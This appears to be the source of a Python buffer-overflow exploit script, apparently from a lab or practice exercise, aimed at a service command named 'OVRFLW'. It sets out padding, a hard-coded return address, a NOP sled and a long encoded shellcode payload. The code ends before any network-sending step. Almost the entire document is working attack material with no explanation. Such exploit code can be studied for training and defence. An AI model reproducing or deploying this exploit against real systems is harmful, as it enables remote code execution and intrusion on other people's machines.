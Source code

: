 ```py 
#!/usr/bin/python

import sys, socket, struct

cmd = "OVRFLW "

offset = "\x41" * 1241

retr = "\x83\x66\x52\x56"

sledge = "\x90" * 16

end = "\r\n"

junk = ""

payload = ("\xd9\xc8\xd9\x74\x24\xf4\xbf\x94\x55\x72\xe8\x5a\x33\xc9\xb1"

"\x52\x83\xea\xfc\x31\x7a\x13\x03\xee\x46\x90\x1d\xf2\x81\xd6"

"\xde\x0a\x52\xb7\x57\xef\x63\xf7\x0c\x64\xd3\xc7\x47\x28\xd8"

"\xac\x0a\xd8\x6b\xc0\x82\xef\xdc\x6f\xf5\xde\xdd\xdc\xc5\x41"

"\x5e\x1f\x1a\xa1\x5f\xd0\x6f\xa0\x98\x0d\x9d\xf0\x71\x59\x30"

"\xe4\xf6\x17\x89\x8f\x45\xb9\x89\x6c\x1d\xb8\xb8\x23\x15\xe3"

"\x1a\xc2\xfa\x9f\x12\xdc\x1f\xa5\xed\x57\xeb\x51\xec\xb1\x25"

"\x99\x43\xfc\x89\x68\x9d\x39\x2d\x93\xe8\x33\x4d\x2e\xeb\x80"

"\x2f\xf4\x7e\x12\x97\x7f\xd8\xfe\x29\x53\xbf\x75\x25\x18\xcb"

"\xd1\x2a\x9f\x18\x6a\x56\x14\x9f\xbc\xde\x6e\x84\x18\xba\x35"

"\xa5\x39\x66\x9b\xda\x59\xc9\x44\x7f\x12\xe4\x91\xf2\x79\x61"

"\x55\x3f\x81\x71\xf1\x48\xf2\x43\x5e\xe3\x9c\xef\x17\x2d\x5b"

"\x0f\x02\x89\xf3\xee\xad\xea\xda\x34\xf9\xba\x74\x9c\x82\x50"

"\x84\x21\x57\xf6\xd4\x8d\x08\xb7\x84\x6d\xf9\x5f\xce\x61\x26"

"\x7f\xf1\xab\x4f\xea\x08\x3c\xb0\x43\x23\x3c\x58\x96\x43\x2d"

"\xc5\x1f\xa5\x27\xe5\x49\x7e\xd0\x9c\xd3\xf4\x41\x60\xce\x71"

"\x41\xea\xfd\x86\x0c\x1b\x8b\x94\xf9\xeb\xc6\xc6\xac\xf4\xfc"

"\x6e\x32\x66\x9b\x6e\x3d\x9b\x34\x39\x6a\x6d\x4d\xaf\x86\xd4"

"\xe7\xcd\x5a\x80\xc0\x55\x81\x71\xce\x54\x44\xcd\xf4\x46\x90"

"\xce\xb0\x32\x4c\x99\x6e\xec\x2a\x73\xc1\x46\xe5\x28\x8b\x0e"

"\x70\x03\x0c\x48\x7d\x4e\xfa\xb4\xcc\x27\xbb\xcb\xe1\xaf\x4b"

"\xb4\x1f\x50\xb3\x6f\xa4\x70\x56\xa5\xd1\x18\xcf\x2c\x58\x45"

"\xf0\x9b\x9f\x70\x73\x29\x60\x87\x6b\x58\x65\xc3\x2b\xb1\x17"

"\x5c\xde\xb5\x84\x5d\xcb")
```